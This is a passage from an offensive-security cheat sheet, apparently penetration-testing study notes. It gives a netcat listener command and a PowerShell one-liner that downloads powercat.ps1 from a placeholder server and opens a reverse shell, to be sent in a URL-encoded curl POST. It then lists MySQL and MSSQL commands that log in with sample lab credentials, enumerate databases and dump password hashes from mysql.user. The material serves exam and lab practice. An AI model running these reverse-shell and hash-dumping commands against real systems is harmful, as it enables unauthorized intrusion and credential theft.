 3) Setting up your netcat listener (with/without rlwrap):
```
nc -nvlp $lport
```

4) Encode this as url and send it via cURL POST request:
```
IEX (New-Object
System.Net.Webclient).DownloadString("http://http_server_ip/powercat.ps1");powercat -c
your_ip -p lport -e powershell
```

```
curl -X POST -d 'your_payload'
```
### SQL Injections
#### Some basic commands
Remote SQL access:
```
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```

Check version:
```
select version();
```

Check user:
```
select system_user();
```

List all databases:
```
show databases;
```

Select user and authentication_string from from mysql.usqr where user is `user`:
```
SELECT user, authentication_string FROM mysql.user WHERE user =
'user';
```

Connect to mssql using impacket:
```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

Check version:
```
SELECT @@version;
```

List all databases:
```
SELECT name FROM sys.databases;
```

Show tables from `user` database:
```
SELECT * FROM user.information_schema.tables;
```
